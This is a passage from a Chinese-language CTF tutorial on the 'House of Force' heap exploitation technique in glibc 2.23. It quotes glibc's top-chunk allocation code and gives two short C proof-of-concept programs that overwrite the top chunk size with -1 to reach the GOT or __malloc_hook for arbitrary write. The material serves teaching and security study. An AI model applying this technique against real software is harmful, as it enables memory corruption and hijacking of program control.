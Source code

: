 - `top chunk`的`size`域
- 你需要可以`malloc`一个特别大的值
- 你需要可以多次`malloc`

**原理：**

在`glibc 2.23`中，对于`top chunk`的检查仅仅只有`(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)`。

那么，若我们将`top chunk`的`size`修改为一个特别大的值，甚至是`-1`（由于是无符号数在进行判断，那么`-1`是最大的数），那么便可以申请任意大小的`chunk`。源码如下：

```c
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```

这里用`wiki`的例子，由于堆是低地址到高地址增长，那么可以申请负数地址来申请到更低的地址（例如`malloc@got.plt`）：

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

也可以通过申请特别大的值来申请到高地址，例如`__malloc_hook`（在`libc`里面）

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```
